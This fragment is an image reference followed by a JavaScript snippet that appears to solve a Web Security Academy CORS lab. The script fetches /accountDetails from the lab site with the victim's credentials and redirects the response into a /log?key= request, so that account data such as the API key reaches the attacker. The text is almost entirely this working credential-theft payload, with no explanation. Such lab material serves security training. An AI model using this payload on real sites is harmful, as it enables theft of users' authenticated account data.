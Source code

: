 ´´´<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://0a2d009103e823e780db94e900590045.web-security-academy.net/accountDetails',true);
	req.withCredentials = true;
	req.send();
	function reqListener() {
	   location='/log?key='+this.responseText;
	};
</script>´´´
